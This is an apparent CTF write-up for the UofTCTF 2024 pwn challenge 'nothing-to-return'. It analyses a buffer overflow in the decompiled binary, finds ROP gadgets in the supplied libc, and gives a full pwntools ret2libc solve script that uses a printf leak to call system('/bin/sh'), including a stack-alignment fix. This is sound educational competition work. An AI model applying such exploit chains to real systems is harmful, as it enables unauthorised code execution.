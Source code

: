 ```yaml
---
title: ntr
date: 2024-02-21
tags: 
- pwn
- rop
- ret2libc
- author-hartmannsyg
categories: UofTCTF 2024
---
```


## nothing-to-return

written by {% person hartmannsyg %}

We are given a binary and a libc.

{% ccb html:true terminal:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> checksec ntr
[</SPAN><SPAN STYLE="color:#61AFEF;">*</SPAN><SPAN STYLE="color:#DCDFE4;">] '/home/rwandi/ctf/uoft/ntr'
    Arch:     amd64-64-little
    RELRO:    </SPAN><SPAN STYLE="color:#E5C07B;">Partial RELRO
</SPAN><SPAN STYLE="color:#DCDFE4;">    Stack:    </SPAN><SPAN STYLE="color:#E06C75;">No canary found
</SPAN><SPAN STYLE="color:#DCDFE4;">    NX:       </SPAN><SPAN STYLE="color:#98C379;">NX enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    PIE:      </SPAN><SPAN STYLE="color:#E06C75;">No PIE (0x3fe000)
</SPAN><SPAN STYLE="color:#DCDFE4;">    RUNPATH:  </SPAN><SPAN STYLE="color:#E06C75;">b'.'</SPAN>
{% endccb %}

<details>
<summary>my strange method to get libc working</summary>

Install the latest pre-release version of pwntools:
{% ccb terminal:true lang:shell %}
python3 -m pip install --upgrade --pre pwntools
{% endccb %}
then in the solve script:
```py
version = 'libc.so.6'
library_path = libcdb.download_libraries(version)
if library_path:
    elf = context.binary = ELF.patch_custom_libraries(elf.path, library_path)
    libc = elf.libc
else:
    libc = ELF(version)
```
</details>

{% ccb html:true terminal:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ./ntr_remotelibc
printf is at 0x7f318b125250
Hello give me an input
Input size:
16
Enter your input:
aaaaaaaaaaaaaaaa
I'm returning the input:
aaaaaaaaaaaaaaa</SPAN>
{% endccb %}

If we open this up in ghidra:
```c
undefined8 main(EVP_PKEY_CTX *param_1)

{
  char buffer [64];
  
  init(param_1);
  printf("printf is at %p\n",printf);
  puts("Hello give me an input");
  get_input(buffer);
  puts("I\'m returning the input:");
  puts(buffer);
  return 0;
}
```
```c
void get_input(void *end_location)

{
  size_t size;
  char *ptr;
  
  puts("Input size:");
  __isoc99_scanf("%lu[^\n]",&size);
  ptr = (char *)calloc(1,size);
  fgets(ptr,(int)size,stdin);
  puts("Enter your input:");
  fgets(ptr,(int)size,stdin);
  memcpy(end_location,ptr,size);
  free(ptr);
  return;
}
```

What this program does is:
- leak printf location (this is our libc leak)
- ask for input size
- read specified number of bytes into `buffer` (in main())

We essentially have a **buffer overflow** as we can input more than the buffer can store.
- No canary found so we don't need a canary leak
- NX enabled so we have to ROP our way using gadgets to shell
- The binary is too small so we need to use gadgets within the libc provided

{% ccb terminal:true html:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ROPgadget --binary ./libc.so.6 | grep 'pop rdi ; ret'
0x00000000000a1457 : inc dword ptr [rbp + 0x158d48c0] ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x0000000000028265 : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret
</SPAN><SPAN STYLE="color:#DCDFE4;">0x000000000003df6d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0x16
0x000000000005a47d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0xffff
0x00000000000a145d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x00000000000a1459 : ror byte ptr [rax - 0x73], 0x15 ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc</SPAN>
{% endccb %}

To run system("/bin/sh"), we need:

1. system

We need to know if system() is in the libc:

{% ccb terminal:true html:true %}
<span class="meta">&gt;&gt;&gt; </span><span class="keyword">from</span> pwn <span class="keyword">import</span> *
<span class="meta">&gt;&gt;&gt; </span>libc = ELF(<span class="string">'./libc.so.6'</span>)
[</SPAN><SPAN STYLE="color:#61AFEF;">*</SPAN><SPAN STYLE="color:#DCDFE4;">] '/home/rwandi/ctf/uoft/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    </SPAN><SPAN STYLE="color:#98C379;">Full RELRO
</SPAN><SPAN STYLE="color:#DCDFE4;">    Stack:    </SPAN><SPAN STYLE="color:#98C379;">Canary found
</SPAN><SPAN STYLE="color:#DCDFE4;">    NX:       </SPAN><SPAN STYLE="color:#98C379;">NX enabled
</SPAN><SPAN STYLE="color:#DCDFE4;">    PIE:      </SPAN><SPAN STYLE="color:#98C379;">PIE enabled
</SPAN><span class="meta">&gt;&gt;&gt; </span><span class="built_in">hex</span>(libc.sym[<span class="string">'system'</span>])
<span class="string">'0x4f760'</span>
{% endccb %}


2. "/bin/sh" string in the libc

{% ccb terminal:true lang:py %}
>>> hex(next(libc.search(b'/bin/sh')))
'0x19fe34'
{% endccb %}

Yep, there is a "/bin/sh" in the libc

3. "pop rdi; ret" gadget so that we can input that string into

{% ccb terminal:true html:true highlight:4 %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ROPgadget --binary ./libc.so.6 | grep 'pop rdi ; ret'
0x00000000000a1457 : inc dword ptr [rbp + 0x158d48c0] ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x0000000000028265 : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret
</SPAN><SPAN STYLE="color:#DCDFE4;">0x000000000003df6d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0x16
0x000000000005a47d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;"> 0xffff
0x00000000000a145d : </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc
0x00000000000a1459 : ror byte ptr [rax - 0x73], 0x15 ; </SPAN><SPAN STYLE="color:#E06C75;">pop rdi ; ret</SPAN><SPAN STYLE="color:#DCDFE4;">f 0xc</SPAN>
{% endccb %}

So let's create our script:
{% ccb lang:py gutter1:1-4,S,13-32 caption:solve.py %}
from pwn import *

context.binary = elf = ELF('./ntr')
context.log_level = 'debug'
//SKIP_LINE(5-12 #Code for loading the libc)
# p = process([elf.path])
p = gdb.debug([elf.path])

p.recvuntil(b"printf is at ")
printf_leak = p.recvline()
printf_leak = int(printf_leak, 16)

libc_base = printf_leak - libc.sym['printf']
log.info('libc_base ' + hex(libc_base))

pop_rdi = libc_base + 0x0000000000028265
binsh = libc_base + next(libc.search("/bin/sh"))
system = libc_base + libc.sym['system']

payload = b'a'*72 + p64(pop_rdi) + p64(binsh) + p64(system)

p.sendline(str(len(payload)).encode())
p.sendline(payload)

p.interactive()
{% endccb %}

{% ccb terminal:true html:true highlight:9 %}
<SPAN STYLE="color:#DCDFE4;">Program received signal SIGSEGV, Segmentation fault.
</SPAN><SPAN STYLE="color:#61AFEF;">0x00007f1f1063a44b </SPAN><SPAN STYLE="color:#DCDFE4;">in </SPAN><SPAN STYLE="color:#E5C07B;">?? </SPAN><SPAN STYLE="color:#DCDFE4;">()
   from </SPAN><SPAN STYLE="color:#98C379;">target:/home/rwandi/.cache/.pwntools-cache-3.11/libcdb_libs/316d0d3666387f0e8f
b98773f51aa1801027c5ab/libc.so.6
</SPAN><SPAN STYLE="color:#DCDFE4;">LEGEND: </SPAN><SPAN STYLE="color:#E5C07B;">STACK </SPAN><SPAN STYLE="color:#DCDFE4;">| </SPAN><SPAN STYLE="color:#61AFEF;">HEAP </SPAN><SPAN STYLE="color:#DCDFE4;">| </SPAN><SPAN STYLE="color:#E06C75;">CODE </SPAN><SPAN STYLE="color:#DCDFE4;">| </SPAN><SPAN STYLE="color:#C678DD;">DATA </SPAN><SPAN STYLE="color:#DCDFE4;">| RWX | RODATA
</SPAN><SPAN STYLE="color:#61AFEF;">────────────────[ REGISTERS / show-flags off / show-compact-regs off ]─────────────────
</SPAN>...
<SPAN STYLE="color:#61AFEF;">─────────────────────────[ DISASM / x86-64 / set emulate on ]──────────────────────────
</SPAN><SPAN STYLE="color:#98C379;"> ►</SPAN><SPAN STYLE="color:#DCDFE4;"> </SPAN><SPAN STYLE="color:#98C379;">0x7f1f1063a44b</SPAN><SPAN STYLE="color:#DCDFE4;">    </SPAN><SPAN STYLE="color:#AFD700;">movaps </SPAN><SPAN STYLE="color:#5FD7FF;">xmmword ptr </SPAN><SPAN STYLE="color:#DCDFE4;">[</SPAN><SPAN STYLE="color:#5FD7FF;">rsp </SPAN><SPAN STYLE="color:#DCDFE4;">+ </SPAN><SPAN STYLE="color:#AF87FF;">0x50</SPAN><SPAN STYLE="color:#DCDFE4;">], </SPAN><SPAN STYLE="color:#5FD7FF;">xmm0
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a450    </SPAN><SPAN STYLE="color:#AFD700;">call</SPAN><SPAN STYLE="color:#DCDFE4;">   </SPAN><SPAN STYLE="color:#AF87FF;">posix_spawn                </SPAN><SPAN STYLE="color:#DCDFE4;">&lt;</SPAN><SPAN STYLE="color:#E06C75;">posix_spawn</SPAN><SPAN STYLE="color:#DCDFE4;">&gt;

   0x7f1f1063a455    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">rdi</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">rbx
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a458    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">r12d</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">eax
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a45b    </SPAN><SPAN STYLE="color:#AFD700;">call</SPAN><SPAN STYLE="color:#DCDFE4;">   </SPAN><SPAN STYLE="color:#AF87FF;">posix_spawnattr_destroy                </SPAN><SPAN STYLE="color:#DCDFE4;">&lt;</SPAN><SPAN STYLE="color:#E06C75;">posix_spawnattr_des
troy</SPAN><SPAN STYLE="color:#DCDFE4;">&gt;

   0x7f1f1063a460    </SPAN><SPAN STYLE="color:#AFD700;">test   </SPAN><SPAN STYLE="color:#5FD7FF;">r12d</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">r12d
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a463    </SPAN><SPAN STYLE="color:#AFD700;">je</SPAN><SPAN STYLE="color:#DCDFE4;">     </SPAN><SPAN STYLE="color:#E06C75;">0x7f1f1063a558                </SPAN><SPAN STYLE="color:#DCDFE4;">&lt;</SPAN><SPAN STYLE="color:#E06C75;">0x7f1f1063a558</SPAN><SPAN STYLE="color:#DCDFE4;">&gt;

   0x7f1f1063a469    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">dword ptr </SPAN><SPAN STYLE="color:#DCDFE4;">[</SPAN><SPAN STYLE="color:#5FD7FF;">rsp </SPAN><SPAN STYLE="color:#DCDFE4;">+ </SPAN><SPAN STYLE="color:#AF87FF;">8</SPAN><SPAN STYLE="color:#DCDFE4;">], </SPAN><SPAN STYLE="color:#AF87FF;">0x7f00
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a471    </SPAN><SPAN STYLE="color:#AFD700;">xor    </SPAN><SPAN STYLE="color:#5FD7FF;">eax</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#5FD7FF;">eax
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a473    </SPAN><SPAN STYLE="color:#AFD700;">mov    </SPAN><SPAN STYLE="color:#5FD7FF;">edx</SPAN><SPAN STYLE="color:#DCDFE4;">, </SPAN><SPAN STYLE="color:#AF87FF;">1
</SPAN><SPAN STYLE="color:#DCDFE4;">   0x7f1f1063a478    </SPAN><SPAN STYLE="color:#AFD700;">lock cmpxchg </SPAN><SPAN STYLE="color:#5FD7FF;">dword ptr </SPAN><SPAN STYLE="color:#DCDFE4;">[</SPAN><SPAN STYLE="color:#5FD7FF;">rip </SPAN><SPAN STYLE="color:#DCDFE4;">+ </SPAN><SPAN STYLE="color:#AF87FF;">0x1f1060</SPAN><SPAN STYLE="color:#DCDFE4;">], </SPAN><SPAN STYLE="color:#5FD7FF;">edx
</SPAN><SPAN STYLE="color:#61AFEF;">───────────────────────────────────────[ STACK ]───────────────────────────────────────
</SPAN>...
<SPAN STYLE="color:#61AFEF;">─────────────────────────────────────[ BACKTRACE ]─────────────────────────────────────
</SPAN>...
<SPAN STYLE="color:#61AFEF;">───────────────────────────────────────────────────────────────────────────────────────</SPAN>
{% endccb %}

We have a movaps stack alignment issue. To fix this, we have to find a ret gadget:

{% ccb terminal:true html:true %}
<SPAN STYLE="color:#98C379;">┌──(</SPAN><SPAN STYLE="color:#61AFEF;">rwandi㉿ryan</SPAN><SPAN STYLE="color:#98C379;">)-[</SPAN><SPAN STYLE="color:#DCDFE4;">~/ctf/uoft</SPAN><SPAN STYLE="color:#98C379;">]
└─</SPAN><SPAN STYLE="color:#61AFEF;">$</SPAN><SPAN STYLE="color:#DCDFE4;"> ROPgadget --binary ./libc.so.6 | grep ": ret$"
0x000000000002648d </SPAN><SPAN STYLE="color:#E06C75;">: ret</SPAN>
{% endccb %}

{% ccb lang:py gutter1:1-4,S,13-33 caption:solve.py diff_add:16,21 %}
from pwn import *

context.binary = elf = ELF('./ntr')
# context.log_level = 'debug'
//SKIP_LINE(5-12 #Code for loading the libc)
p = process([elf.path])
# p = gdb.debug([elf.path])

p.recvuntil(b"printf is at ")
printf_leak = p.recvline()
printf_leak = int(printf_leak, 16)

libc_base = printf_leak - libc.sym['printf']
log.info('libc_base ' + hex(libc_base))

ret = libc_base + 0x000000000002648d
pop_rdi = libc_base + 0x0000000000028265
binsh = libc_base + next(libc.search("/bin/sh"))
system = libc_base + libc.sym['system']

payload = b'a'*72 + p64(ret) + p64(pop_rdi) + p64(binsh) + p64(system)

p.sendline(str(len(payload)).encode())
p.sendline(payload)

p.interactive()
{% endccb %}

And we get shell!

We have succesfully ntred